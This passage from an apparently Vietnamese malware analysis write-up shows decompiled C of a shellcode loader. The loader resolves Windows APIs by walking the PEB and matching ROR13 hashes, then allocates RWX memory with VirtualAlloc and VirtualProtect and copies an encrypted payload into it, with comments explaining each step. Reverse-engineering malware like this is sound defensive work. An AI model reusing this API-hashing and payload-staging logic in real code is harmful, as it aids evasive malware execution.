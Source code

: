 ```c
      v12 = (unsigned int *)((char *)v3 + (unsigned int)v10[8]);
      if ( v10[6] )
        break;
    }
  }
  while ( 1 )
  {
    v13 = 0;
    v14 = (char *)v3 + *v12++;
    do
    {
      v15 = *v14++;
      v13 = v15 + __ROR4__(v13, 13);
    }
    while ( (_BYTE)v15 );
    if ( v13 + v5 == a1 )
      return (char *)v3
           + *(unsigned int *)((char *)&v3->Flink
                             + 4 * *(unsigned __int16 *)((char *)&v3->Flink + v10[9] + (unsigned int)(2 * v11))
                             + (unsigned int)v10[7]);
    if ( (unsigned int)++v11 >= v10[6] )
      goto LABEL_2;
  }
}
```

Hàm này duyệt PEB để tìm các module, sau đó tính hash ROR13 của tên DLL và tên hàm export. Nếu tổng hash bằng giá trị đầu vào thì trả về địa chỉ hàm

**MAIN()**

```
MAIN(__int64 a1, unsigned int a2, int a3, int a4, int a5, unsigned int a6)
MAIN((__int64)&dword_402C84, 0xADE40u, 1, 1, 1, 0xA65A282A);
```

> a1 là địa chỉ của payload bị mã hoá và a2 là kích cỡ

- Resolve API theo tên

- VirtualAlloc vùng mới (RW), VirtualProtect (RWX), copy payload từ vị trí cũ sang vùng mới (copy từ `a1`)

```c
  v12 = a2;
  v13 = v100(0, a2, 0x3000, 4); // VirtualAlloc
  v14 = (void (*)(void))v13;    // mov r14, rax
  if ( !v13 )
    return -1;
  v76 = a2;
  v103(v13, a2, 64, &v104); 	// VirtualProtect
  if ( a2 )
  {
    v15 = v14;
    v16 = a2;
    do						 // memcpy(v14, a1, a2)
    {
      *(_BYTE *)v15 = *((_BYTE *)v15 + a1 - (_QWORD)v14);
      v15 = (void (*)(void))((char *)v15 + 1);
      --v16;
    }
    while ( v16 );  
  }
```
